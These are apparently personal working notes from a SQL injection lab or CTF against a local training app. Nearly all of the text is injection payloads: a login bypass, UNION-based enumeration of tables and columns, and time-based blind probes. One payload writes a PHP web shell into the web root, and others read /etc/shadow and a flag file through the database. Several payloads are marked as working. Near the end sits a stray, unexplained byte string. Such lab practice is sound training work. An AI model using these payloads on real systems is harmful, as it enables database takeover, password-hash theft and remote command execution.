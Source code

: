 question 1:

### Username: "alice' OR 1=1;-- "
### Error I got:
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ';--') AND (password = 'd41d8cd98f00b204e9800998ecf8427e')' at line 1

### Username: "alice'); -- "
### Success

question 2:
## "' OR 1=1; -- "
## "' ORDER BY (SELECT user FROM mysql.user); -- "
## "' UNION (SELECT 1, DATABASE(), VERSION(), CURRENT_USER(), 5); -- "

' UNION (SELECT 1, HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser, 5); -- 
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser

' UNION (SELECT 1, user, 3, 4, 5 FROM mysql.user); -- 
SELECT user FROM mysql.user

' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' AND TABLE_SCHEMA='sqlitraining'); -- 


' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'cyber_tableAAAAAAAAAAAAA'); -- 



' UNION (SELECT * FROM cyber_tableAAAAAAAAAAAAA ORDER BY 1); -- 

' UNION ((SELECT 1,2,3) FULL OUTER JOIN (SELECT * FROM cyber_tableAAAAAAAAAAAAA) ON TRUE); -- 
' UNION (SELECT 1,2,3,cyberId,cyberHour FROM cyber_tableAAAAAAAAAAAAA); -- 


' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES); -- 

' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' AND TABLE_SCHEMA='secure'); -- 
' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'secure'); -- 


http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' AND TABLE_SCHEMA='secure'); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'789b05678e7f955d2cf125b0c05616c9'); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'789b05678e7f955d2cf125b0c05616c9' AND COLUMN_NAME <> 'id' AND COLUMN_NAME <> 'random'); -- 

http://localhost:8000/blindsqli.php?user=%27%20UNION%20(SELECT%201,2,3,4,COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%20=%20N%27789b05678e7f955d2cf125b0c05616c9%27);%20--%20

id random 

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,COUNT(id) FROM N'789b05678e7f955d2cf125b0c05616c9'); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT * FROM N'789b05678e7f955d2cf125b0c05616c9' WHERE TRUE) 
http://localhost:8000/blindsqli.php?user='; SELECT SLEEP(50); -- 

http://localhost:8000/blindsqli.php?user=' UNION (SELECT IF(COUNT(random) >= 5, SELECT a FROM b, NULL) FROM 789b05678e7f955d2cf125b0c05616c9); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT IF(TRUE, SELECT a FROM b, NULL) FROM 789b05678e7f955d2cf125b0c05616c9); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SLEEP(10000)); -- 

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,SLEEP(2)); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT IF(COUNT(random) >= 5, SELECT a FROM b, NULL) FROM 789b05678e7f955d2cf125b0c05616c9); -- 
http://localhost:8000/blindsqli.php?user=' UNION (IF(TRUE, (SELECT 1,2,3,4,SLEEP(2)), NULL)); -- 
http://localhost:8000/blindsqli.php?user=' UNION (IF((SELECT COUNT(*) FROM 789b05678e7f955d2cf125b0c05616c9) >= 5, (SELECT 1,2,3,4,SLEEP(2)), NULL)); -- 

# THIS WORKS
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,IF(TRUE, SLEEP(2), NULL)); -- 


http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,IF((SELECT COUNT(*) FROM 789b05678e7f955d2cf125b0c05616c9) >= 5, SLEEP(2), NULL) FROM 789b05678e7f955d2cf125b0c05616c9); -- 


http://localhost:8000/blindsqli.php?user=' UNION (USE secure; SELECT 1,2,3,4,IF((SELECT COUNT(*) FROM 789b05678e7f955d2cf125b0c05616c9) >= 5, SLEEP(2), NULL)); --%20

## fuck yeah
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,(SELECT COUNT(*) FROM secure.789b05678e7f955d2cf125b0c05616c9); --%20


http://localhost:8000/blindsqli.php?user=' UNION (SELECT COUNT(*),COUNT(*),COUNT(*),COUNT(*),COUNT(*) FROM secure.789b05678e7f955d2cf125b0c05616c9); --%20
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 69,69,69,id,random FROM secure.789b05678e7f955d2cf125b0c05616c9); --%20



http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' AND TABLE_SCHEMA='secure'); --
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' AND TABLE_SCHEMA='secure'); -- 
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'789b05678e7f955d2cf125b0c05616c9'); -- 

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = N'789b05678e7f955d2cf125b0c05616c9'); --


http://localhost:8000/blindsqli.php?user=' UNION (SELECT 69,69,69,id,random FROM secure.789b05678e7f955d2cf125b0c05616c9 WHERE id <> 1 AND ID <> 2); --%20

http://localhost:8000/os_sqli.php?user=' UNION (SELECT 1,'Hello, World',3,'','' into outfile /home/hello_world.txt; SELECT 1,2,3,4,5); --%20

http://localhost:8000/os_sqli.php?user=%27%20UNION%20SELECT%201,"Hello,%20World",3,"",""%20into%20outfile%20/home/HelloWorld.txt;%20--%20%20

http://localhost:8000/blindsqli.php?user=' UNION (SELECT '','Hello, World','','','' INTO OUTFILE '/home/hello_world.txt' FIELDS TERMINATED BY '' LINES TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LIMIT 1); --%20

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 'Hello, World','','','','' INTO DUMPFILE '/home/hello_world.txt'); --%20
http://localhost:8000/blindsqli.php?user=' UNION (SELECT '<?php system($_GET["cmd"]); ?>','','','','' INTO DUMPFILE '/var/www/html/cmd.php'); --%20

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,LOAD_FILE('/home/flag.txt')); --%20

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,LOAD_FILE('/etc/shadow')); --%20
http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,USER()); --%20

http://localhost:8000/blindsqli.php?user=' UNION (LOAD DATA INFILE '/etc/shadow' INTO TABLE sqlitraining.users; SELECT 1,2,3,4,5)); --%20

LOAD FROM 'new_custs' INSERT INTO jason.customer;
LOAD DATA INFILE '/etc/shadow' INTO TABLE sqlitraining.users;

\xc9\xcb\xbf\x3d\xed\x6f\x72\xfd\x41\x59\x3d\xde\x4a\x3a\x73\x178\x4f\xbf\x2f\x73\x6f\xfe\xd6\xd5\x46\xb0\x26\xa7\x6a\xf8\xd5\x58\x1e\xb4\x7c\x68\xae\x20\x1a\x2f

' UNION (LOAD DATA INFILE '/etc/shadow' INTO TABLE sqlitraining.users; SELECT 1,2,3,4,5); -- 

http://localhost:8000/blindsqli.php?user=' UNION (SELECT * FROM INFILE '/etc/shadow'); --%20

http://localhost:8000/blindsqli.php?user=' UNION (SELECT 1,2,3,4,LOAD_FILE('/home/flag.txt')); --%20